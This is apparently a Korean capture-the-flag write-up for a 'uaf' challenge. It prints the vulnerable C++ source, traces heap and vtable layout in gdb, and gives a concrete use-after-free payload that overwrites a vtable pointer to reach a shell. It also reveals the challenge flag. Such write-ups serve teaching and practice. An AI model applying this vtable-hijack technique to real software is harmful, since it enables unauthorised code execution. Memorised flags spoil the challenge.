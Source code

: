 # uaf


```cpp
#include <fcntl.h>
#include <iostream>
#include <cstring>
#include <cstdlib>
#include <unistd.h>
using namespace std;

class Human{
private:
        virtual void give_shell(){
                system("/bin/sh");
        }
protected:
        int age;
        string name;
public:
        virtual void introduce(){
                cout << "My name is " << name << endl;
                cout << "I am " << age << " years old" << endl;
        }
};

class Man: public Human{
public:
        Man(string name, int age){
                this->name = name;
                this->age = age;
        }
        virtual void introduce(){
                Human::introduce();
                cout << "I am a nice guy!" << endl;
        }
};

class Woman: public Human{
public:
        Woman(string name, int age){
                this->name = name;
                this->age = age;
        }
        virtual void introduce(){
                Human::introduce();
                cout << "I am a cute girl!" << endl;
        }
};

int main(int argc, char* argv[]){
        Human* m = new Man("Jack", 25);
        Human* w = new Woman("Jill", 21);

        size_t len;
        char* data;
        unsigned int op;
        while(1){
                cout << "1. use\n2. after\n3. free\n";
                cin >> op;

                switch(op){
                        case 1:
                                m->introduce();
                                w->introduce();
                                break;
                        case 2:
                                len = atoi(argv[1]);
                                data = new char[len];
                                read(open(argv[2], O_RDONLY), data, len);
                                cout << "your data is allocated" << endl;
                                break;
                        case 3:
                                delete m;
                                delete w;
                                break;
                        default:
                                break;
                }
        }

        return 0;
}
```


|HEAP 영역  |
|---------|
|Man     |
|Woman     |

----
이 생성되고 없어진다

1. 다음은 Stack 영역 (Human *들)이고 
:::image type="content" source="img/uaf_1.PNG" alt-text="1":::

2. 다음은 가르키고 있는 Heap영역이다
:::image type="content" source="img/uaf_2.PNG" alt-text="2":::

이는 다음과같이 이상한 hexadigit을 발견하여 검토해보니 확실히 heap인 것을 깨달았다.

:::image type="content" source="img/uaf_4.PNG" alt-text="4":::


3. Giveshell의 주소는 text segment를 뒤벼보다가 찾았다.

:::image type="content" source="img/uaf_3.PNG" alt-text="3":::

4. gdb를 껐다켜서 주소가 다르지만 이는 heap영역을 들여다 본것이다.
:::image type="content" source="img/uaf_5.PNG" alt-text="5":::

`disas main` 으로 약 280 쯤의 라인을 보면 1. 번 case를 행하는 코드가 나오는데 그때 call 하는 주소를 잘 살펴보면 다음과 같이 heap에서 가져온 값에 +8 을 해주는 것을 볼 수 있기에 그 값을 확인해 보았다.  

:::image type="content" source="img/uaf_6.PNG" alt-text="6":::

우리가 아까 찾은 `give_shell`의 주소가 보이는 가?? heap 영역 첫번째 칸에 `give_shell의` 주소를 가르키는 주소 -8을 한 값을 넣어주면 `introduce` 가 실행될때 `introduce` 대신 `give_shell을` 실행시킬수가 있다

:::image type="content" source="img/uaf_7.PNG" alt-text="7":::

이제 페이로드를 다음과 같이 작성해서 실행시키면 짜잔잔~ shell 을 실행 시킬수가 있다


```bash
$ python -c 'print"\x88\x15\x40\x00\x00\x00\x00\x00"' > /tmp/ uaf_qpalzmm22/uaf.txt;
$ ./uaf 8 /tmp/uaf_qpalzmm22/uaf.txt
3 -> 2 -> 2-> 1 (마지막에 지워진(woman) 부터 채우기 때문에 두번 allocation 필요)
```
:::image type="content" source="img/uaf_8.PNG" alt-text="8":::

> [!TIP]
> **flag: yay_f1ag_aft3r_pwning**
> 